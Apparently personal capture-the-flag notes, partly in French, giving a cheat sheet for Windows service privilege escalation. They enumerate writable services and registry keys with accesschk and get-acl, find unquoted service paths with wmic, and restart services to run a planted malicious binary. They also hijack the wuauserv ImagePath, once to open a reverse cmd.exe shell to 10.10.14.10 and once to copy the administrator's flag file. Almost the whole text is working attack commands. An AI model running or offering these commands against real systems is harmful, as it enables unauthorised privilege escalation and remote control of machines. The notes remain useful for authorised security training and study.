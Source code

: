 # services

## check services with write access - to change binpath

## commande de base
accesschk.exe -accepteula -uvwc *

## registry pour les service modifiable par l'user Hector:
./accesschk64.exe "Hector" -kvuqsw hklm:\SYSTEM\CurrentControlSet\services

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List *| findstr /i "Hector Users Path"


## Unquoated services

wmic service get name,displayname,pathname,startmode 2>nul |findstr /i "Auto" 2>nul |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """


## Restart service
Okay, so now that we have a malicious binary  in place we need to restart the service so that it gets executed. We  can do this by using wmic or net the following way:

wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name].

## Modifiable from registry

set-itemproperty hklm:\SYSTEM\CurrentControlSet\services\wuauserv -name ImagePath -value 'c:\tmp\titi.exe 10.10.14.10 80 -e cmd.exe'
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet\services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d 'copy c:\users\administrator\desktop\root.txt c:\tmp\r.txt' /f

